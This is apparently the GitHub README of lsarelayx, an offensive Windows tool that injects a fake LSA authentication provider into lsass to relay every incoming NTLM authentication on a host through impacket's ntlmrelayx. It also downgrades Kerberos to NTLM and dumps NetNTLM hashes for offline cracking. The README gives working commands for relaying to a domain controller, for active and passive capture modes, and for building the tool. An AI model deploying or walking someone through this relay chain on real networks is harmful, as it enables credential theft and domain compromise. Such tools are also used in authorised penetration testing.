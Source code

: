 # lsarelayx

## Introduction

lsarelayx is system wide NTLM relay tool designed to relay incoming NTLM based authentication to the host it is running on.  lsarelayx will relay **any** incoming authentication request which includes SMB.  Since lsarelayx hooks into existing application authentication flows, the tool will also attempt to service the original authentication request after the relay is complete.  This will prevent the target application/protocol from displaying errors and function as normal for end users authenticating against the lsarelayx host.

### **Features**

* Relays NTLM connections system wide, including SMB, HTTP/HTTPS, LDAP/LDAPS or any other third party application implementing the Windows authentication APIs.
* Where possible, downgrades incoming Kerberos authentication requests to NTLM.  This will cause clients that would traditionally attempt Kerberos authentication to fallback to NTLM.
* Performs an LDAP query for the relayed user to fetch group membership info an create the correct authentication token for the original request.
* Dumps NetNTLM messages for offline cracking.
* Supports a passive mode that does not relay and only dumps captured NetNTLM hashes (no Kerberos downgrade in this mode).

## How it works

lsarelayx comes in three parts.  A fake LSA authentication provider implemented within liblsarelay.dll, a user mode console application as the control interface and a new ntlmrelayx server module called RAW.

### liblsarelayx.dll

liblsarelayx.dll is the LSA authentication provider that gets loaded by lsarelayx.  It's predominant purpose is to hook the NTLM and Negotiate packages to facilitating redirecting authentication requests to lsarelayx over a local named pipe for relaying and dumping NetNTLM hashes.  liblsarelayx is designed to be as simple as possible where all the heavy lifting is performed by lsarelayx

### lsarelayx.exe

lsarelayx.exe is the main console application used to load the custom LSA authentication provider (liblsarelayx.dll), listen for incoming NTLM and Negotiate tokens from the authentication provider and relay to ntlmrelayx's RAW server module.  The tool also performs the LDAP queries used for capturing group information for relayed users and passing back to the LSA authentication provider.

### RAW ntlmrelayx module

impacket's ntlmrelayx has implemented a significant amount of work creating relay attacks and will continue to improve and add further attack in the future.  To take advantage of this in favour of reimplementing attacks directly within lsarelayx, a new ntlmrelayx server module was created called RAW.  Currently there is a [PR open on GitHub](https://github.com/SecureAuthCorp/impacket/pull/1190) that implements the RAW server module.  The RAW server module is protocol agnostic and is designed to accept the raw NTLM messages directly from 3rd party software like lsarelayx.

Until the PR is merged into the mainline impacket repo, you can use [this version](https://github.com/CCob/impacket)

## Usage

### Active Mode

First start the ntmlrelayx RAW server module to listen for RAW NTLM messages passed from lsarelayx.

```
python examples\ntlmrelayx.py -smb2support --no-wcf-server --no-smb-server --no-http-server "-t" smb://dc.victim.lan

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

lsarelayx itself requires local administrator permissions to run.  To run in active relay mode, the host address where ntlmrelayx is running the raw server module needs to be specified.  The default port is 6666.  This can be overridden with the `--port` argument, but be sure to have also overridden the port on the ntlmrelayx side too using the `--raw-port` argument.

```
lsarelayx.exe --host 192.168.1.1
[+] Using 192.168.1.1:6666 for relaying NTLM connections
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Passive Mode

You can also run lsarelayx in passive mode by running without any arguments

```
lsarelayx.exe
[=] No host supplied, switching to passive mode
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Caveats

Once the liblsarelayx DLL has been loaded into lsass, currently you cannot unload it due to limitations of how LSA plugins work.  The client can be closed which will put the DLL into a dormant state until the client starts again but the DLL will be in use until a reboot occurs.

Since the LSA plugin is not actually a genuine plugin, there are plans to implement a reflective loader inside the plugin which can then be stopped and started at will but that’s an exercise for another day.

## !!WARNING!!

liblsarelayx.dll will be loaded inside the critical lsass.exe process.  If liblsarelayx.dll has any bugs that lead to crashing lsass.exe, the host **WILL** reboot after 60s.  Whilst best efforts have been made to write bug free code, I can't promise anything.  Don't come crying to me that you took your fortune 500 client down for crashing the busy file server after using lsarelayx.

## Building

### Docker

If you have docker installed, this is the quickest option. It utilises the `ccob/windows_cross` image with all the build dependencies pre-installed.

#### Docker on Windows (Powershell)

```shell
docker run --rm -it -v $env:pwd\:/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build .; cmake --install ."
```

#### Docker on Linux

```shell
docker run --rm -it -v $(pwd):/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build .; cmake --install ."
```

### Linux

On Linux we utilise a CMake toolchain along with the MinGW compiler.  These need to be installed before hand.  For the managed component, please make sure the dotnet command line tool is also installed from .NET core

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..
cmake --build .
cmake --install .
```

### Windows (Powershell)

Windows will require a full CMake, MinGW and Visual Studio setup before even attempting to build, it's the most painful way to build if you don't have a development environment installed 

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -G "MinGW Makefiles" ..
cmake --build .
cmake --install .
```